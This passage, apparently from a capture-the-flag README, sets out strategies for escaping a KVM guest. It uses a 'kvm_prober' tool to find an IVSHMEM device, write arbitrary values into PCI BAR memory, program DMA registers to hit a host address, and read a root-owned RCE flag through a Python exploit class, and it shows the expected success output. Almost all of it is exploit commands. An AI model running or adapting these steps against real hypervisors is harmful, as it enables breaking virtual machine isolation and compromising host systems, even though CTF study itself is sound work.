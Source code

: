 ### Strategy 2: IVSHMEM BAR Attack
```bash
# 1. Find IVSHMEM device
lspci -d 1af4:

# 2. Check BARs
cat /sys/bus/pci/devices/0000:00:04.0/resource

# 3. Calculate offset and write
# If BAR at 0xfe800000, and target at 0x64279a8:
# Try: BAR_BASE + (TARGET & 0xFFFFFF)
kvm_prober writemmio_val fe4279a8 deadbeef41424344 8
```

### Strategy 3: IVSHMEM DMA Attack
```bash
# 1. Find large prefetchable BAR (IVSHMEM)
# 2. Write value to buffer in BAR
kvm_prober writemmio_val fe801000 deadbeef41424344 8

# 3. Configure DMA (example registers)
kvm_prober writemmio_val fe800008 fe801000 8  # Source
kvm_prober writemmio_val fe800010 64279a8 8   # Dest
kvm_prober writemmio_val fe800018 8 4         # Length
kvm_prober writemmio_val fe800020 1 4         # Trigger
```

### Strategy 4: File Read (RCE)
```bash
# Read RCE flag
kvm_prober readfile /root/rce_flag 0 256

# Try Python for better parsing
python3 -c "
from hybrid_kvm_exploit import *
e = HybridExploit()
e.exploit_rce_file()
"
```

## 📊 Expected Success Patterns

### Successful Write Flag
```
[✓✓✓] WRITE FLAG CAPTURED! Value verified: 0xdeadbeef41424344
```

### Successful Read Flag
```
[✓✓✓] READ FLAG FOUND: flag{...}
```
